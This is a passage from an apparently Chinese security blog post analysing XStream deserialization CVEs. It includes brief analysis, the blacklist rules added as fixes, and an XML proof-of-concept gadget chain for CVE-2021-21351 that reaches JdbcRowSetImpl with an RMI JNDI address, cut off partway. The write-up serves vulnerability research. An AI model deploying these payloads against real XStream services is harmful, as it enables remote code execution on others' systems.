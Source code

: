 ```xml
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### [](#分析-4 "分析")分析

这个和CVE-2021-21347类似，这是把远程jar改为了BCEL方式加载，相应的将processorCL改为了com.sun.org.apache.bcel.internal.util.ClassLoader。

在8u60环境下同样遇到processorCL构造的问题，更新为Wh1t3p1g师傅构造BCEL的方式之后运行成功。具体可以参考LazyIterator 中的poc。

### [](#黑名单：-5 "黑名单：")黑名单：

```java
private static final Pattern BCEL_CL = Pattern.compile(".*\\.bcel\\..*\\.util\\.ClassLoader");
denyTypeHierarchy(InputStream.class);
denyTypeHierarchyDynamically("javax.activation.DataSource");
```

[](#CVE-2021-21351 "CVE-2021-21351")CVE-2021-21351
--------------------------------------------------

author: wh1t3p1g

### [](#POC-5 "POC")POC

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
```